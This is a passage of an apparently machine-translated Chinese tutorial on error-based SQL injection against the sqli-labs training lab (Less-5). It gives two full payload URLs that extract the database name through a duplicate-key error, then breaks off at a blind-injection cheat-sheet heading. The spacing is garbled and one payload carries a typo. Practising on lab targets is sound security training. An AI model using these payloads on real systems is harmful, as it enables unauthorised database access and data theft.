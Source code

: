 此外，还有一个“b”来给出嵌套查询的别名内部语句，并返回一行。

![](img/0a7a1ba04e884f37dc56eea2c04a1aed.png)

URL:localhost:8081/sqli-labs/Less-5/？id = 1 '+and+(SELECT 1 FROM(SELECT COUNT(*)，CONCAT(0x3a，0x3a，(SELECT database())，0x3a，0x3a，floor(rand()* 2))a FROM information _ schema . columns GROUP BY a)b)–+

如果没有重复的，你会得到上面的错误。我们将忽略它，并通过刷新页面继续尝试。

![](img/5a13183aa2362d86e793e32b02d111a3.png)

URL:localhost:8081/sqli-labs/Less-5/？id = 1 '+and+(SELECT 1 FROM(SELECT COUNT(*)，CONCAT(0x3a，x3a，(SELECT database())，0x3a，0x3a，floor(rand()* 2))a FROM information _ schema . columns GROUP BY a)b)–+

通过这种方式，你将得到两边两个冒号之间的数据库名称，你也可以从数据库中提取其他数据。

## 盲目 SQL 注入备忘单

这里的方法也是一样的，但是有一点额外的技巧。
